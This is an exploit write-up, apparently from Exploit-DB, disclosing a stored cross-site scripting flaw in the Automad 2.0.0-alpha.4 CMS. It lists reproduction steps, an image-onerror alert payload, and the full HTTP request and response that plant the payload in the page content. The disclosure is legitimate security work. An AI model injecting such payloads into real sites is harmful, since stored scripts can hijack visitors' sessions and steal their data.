 # Exploit Title: Stored Cross-Site Scripting (XSS) - Automad 2.0.0-alpha.4
# Date: 20-06-2024
# CVE: CVE-2024-40111 [Reserved](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-40111)
# EDB-ID: [52056](https://www.exploit-db.com/exploits/52056)
# Exploit Author: Jerry Thomas (w3bn00b3r)
# Vendor Homepage: https://automad.org
# Software Link: https://github.com/marcantondahmen/automad
# Category: Web Application [Flat File CMS]
# Version: 2.0.0-alpha.4
# Tested on: Docker version 26.1.4, build 5650f9b | Debian GNU/Linux 11 (bullseye)

# Description

A persistent (stored) cross-site scripting (XSS) vulnerability has been identified in Automad 2.0.0-alpha.4. This vulnerability enables an attacker to inject malicious JavaScript code into the template body. The injected code is stored within the flat file CMS and is executed in the browser of any user visiting the forum. This can result in session hijacking, data theft, and other malicious activities.

# Proof-of-Concept

**Step-1**: Login as Admin & Navigate to the endpoint http://localhost/dashboard/home

**Step-2**: There will be a default Welcome page. You will find an option to edit it.

**Step-3:** Navigate to Content tab or http://localhost/dashboard/page?url=%2F&section=text & edit the block named ***`Main`***

**Step-4:** Enter the XSS Payload - `<img src=x onerror=alert(1)>`

***Request:***  
```
POST /_api/page/data HTTP/1.1
Host: localhost
Content-Length: 1822
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzHmXQBdtZsTYQYCv
Accept: */*
Origin: http://localhost
Referer: http://localhost/dashboard/page?url=%2F&section=text
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: Automad-8c069df52082beee3c95ca17836fb8e2=d6ef49301b4eb159fbcb392e5137f6cb
Connection: close

------WebKitFormBoundaryzHmXQBdtZsTYQYCv
Content-Disposition: form-data; name="__csrf__"

49d68bc08cca715368404d03c6f45257b3c0514c7cdf695b3e23b0a4476a4ac1
------WebKitFormBoundaryzHmXQBdtZsTYQYCv
Content-Disposition: form-data; name="__json__"

{"data":{"title":"Welcome","+hero":{"blocks":[{"id":"KodzL-KvSZcRyOjlQDYW9Md2rGNtOUph","type":"paragraph","data":{"text":"Testing for xss","large":false},"tunes":{"layout":null,"spacing":{"top":"","right":"","bottom":"","left":""},"className":"","id":""}},{"id":"bO_fxLKL1LLlgtKCSV_wp2sJQkXAsda8","type":"paragraph","data":{"text":"&lt;h1&gt;XSS identified by Jerry&lt;/h1&gt;","large":false},"tunes":{"layout":null,"spacing":{"top":"","right":"","bottom":"","left":""},"className":"","id":""}}],"automadVersion":"2.0.0-alpha.4"},"+main":{"blocks":[{"id":"lD9sUJki6gn463oRwjcY_ICq5oQPYZVP","type":"paragraph","data":{"text":"You have successfully installed Automad 2.<br><br>&lt;img src=x onerror=alert(1)&gt;<br>","large":false},"tunes":{"layout":null,"spacing":{"top":"","right":"","bottom":"","left":""},"className":"","id":""}},{"id":"NR_n3XqFF94kfN0jka5XGbi_-TBEf9ot","type":"buttons","data":{"primaryText":"Visit Dashboard","primaryLink":"/dashboard","primaryStyle":{"borderWidth":"2px","borderRadius":"0.5rem","paddingVertical":"0.5rem","paddingHorizontal":"1.5rem"},"primaryOpenInNewTab":false,"secondaryText":"","secondaryLink":"","secondaryStyle":{"borderWidth":"2px","borderRadius":"0.5rem","paddingHorizontal":"1.5rem","paddingVertical":"0.5rem"},"secondaryOpenInNewTab":true,"justify":"start","gap":"1rem"},"tunes":{"layout":null,"spacing":{"top":"","right":"","bottom":"","left":""},"className":"","id":""}}],"automadVersion":"2.0.0-alpha.4"}},"theme_template":"project","dataFetchTime":"1718911139","url":"/"}
------WebKitFormBoundaryzHmXQBdtZsTYQYCv--
```
***Response:***  

```
HTTP/1.1 200 OK
Server: nginx/1.24.0
Date: Thu, 20 Jun 2024 19:17:35 GMT
Content-Type: application/json; charset=utf-8
Connection: close
X-Powered-By: PHP/8.3.6
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 30`

{"code":200,"time":1718911055}
```

**Step-5:** XSS triggers when you go to homepage - http://localhost/


# Video Poc
``` 
Link - https://drive.google.com/file/d/10BVQKYo2H1-Nx3FOGteL2xww4lbZ3xlS/view?usp=sharing
```
